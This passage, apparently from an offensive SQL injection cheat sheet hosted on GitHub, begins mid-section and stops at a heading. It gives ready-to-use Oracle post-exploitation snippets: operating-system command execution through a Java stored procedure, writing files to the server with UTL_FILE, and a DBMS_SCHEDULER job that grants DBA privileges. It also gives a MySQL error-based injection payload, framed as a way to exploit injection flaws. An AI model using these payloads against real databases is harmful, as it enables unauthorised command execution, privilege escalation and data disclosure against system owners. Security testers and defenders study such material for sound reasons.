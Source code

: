 ```sql
SELECT run_cmd('id') FROM dual;
```
This uses Java stored procedures to execute system commands.

#### UTL_FILE Package for File Access
```sql
DECLARE
   l_file UTL_FILE.FILE_TYPE;
   l_text VARCHAR2(32767);
BEGIN
   l_file := UTL_FILE.FOPEN('DIRECTORY_NAME', 'output.txt', 'W');
   UTL_FILE.PUT_LINE(l_file, 'Data from UTL_FILE');
   UTL_FILE.FCLOSE(l_file);
END;
```
This technique uses the UTL_FILE package to write files to the server.

#### DBMS_SCHEDULER for Job Execution
```sql
BEGIN
   DBMS_SCHEDULER.create_job(
      job_name => 'job1',
      job_type => 'PLSQL_BLOCK',
      job_action => 'BEGIN EXECUTE IMMEDIATE ''GRANT DBA TO SCOTT''; END;',
      start_date => SYSTIMESTAMP,
      repeat_interval => NULL,
      end_date => NULL,
      enabled => TRUE
   );
END;
```
This uses DBMS_SCHEDULER to execute jobs that can change database permissions.

## Advanced Methods to Forcefully Generate Errors on Various DBMS

Here are some advanced techniques specific to some DBMS to force errors and gather valuable information. By using these advanced methods to force errors on different DBMS, you can gather detailed error messages that reveal valuable information about the database, helping you identify and exploit SQL injection vulnerabilities more effectively.

### MySQL

#### Use of Invalid Functions

MySQL provides many functions that, when used incorrectly, can generate errors.
```sql
' AND EXP(~(SELECT * FROM (SELECT 1) t)) -- 
```

#### Invalid Hexadecimal Conversion
